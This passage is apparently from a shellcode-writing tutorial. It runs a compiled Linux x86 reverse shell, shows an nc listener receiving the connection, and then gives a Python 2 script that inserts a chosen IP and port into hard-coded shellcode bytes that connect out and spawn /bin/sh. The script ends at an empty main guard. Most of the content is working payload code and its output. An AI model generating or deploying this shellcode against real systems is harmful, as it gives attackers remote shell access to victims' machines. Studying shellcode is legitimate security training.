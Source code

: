 Now it should be good to run! 
 
 Start the listener, then run the reverse_shell:
 ```shell
 ./shellcode
Shellcode Length:  79
 ```
 Listen for connection and issue command:
 ```shell
 nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [192.168.247.131] port 4444 [tcp/*] accepted (family 2, sport 45306)
who
pwoer    tty7         Dec 11 10:13 (:0)
 ```

Now we will make a python script to replace the IP and port numbers so that we have easily created shellcode!  This will just replace the IP and port within the shellcode and output the new version.
```python
import struct
import sys
import socket
import binascii

def main():
	if len(sys.argv) != 3:
		print "Usage: {0} IP PORT".format(sys.argv[0])
		exit()

	ip = sys.argv[1]
	
	port = int(sys.argv[2])
	# bounds checking
	if not (0 <= port <= 65535):
		print "That's not a real port number!"
		exit()

	# check well known ports
	if port <= 1024:
		print "Reminder: Well known port needs to be run as root"
	
	ip = socket.inet_aton(ip)	
	ip = binascii.hexlify(ip)
	ip = '\\x'+ip[0:2]+'\\x'+ ip[2:4] + '\\x' + ip[4:6] + '\\x' + ip[6:]

	port = r'\x' + r'\x'.join(x.encode('hex') for x in struct.pack('!H', port))	

	# check nulls
	if r'\x00' in ip:
		print 'Null in that ip. Try again.'
		exit()
	if r'\x00' in port:
		print 'Null in that port number. Try again.'
		exit()

	shellcode = "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\xb0\\x66\\xb3\\x01\\x51\\x53\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x89\\xc7\\xb0\\x66\\x43\\x68" + ip + "\\x66\\x68" + port + "\\x66\\x53\\x43\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xcd\\x80\\x89\\xfb\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x89\\xd1\\xb0\\x0b\\xcd\\x80"


	print "Shellcode: " + shellcode
	
if __name__=="__main__":
```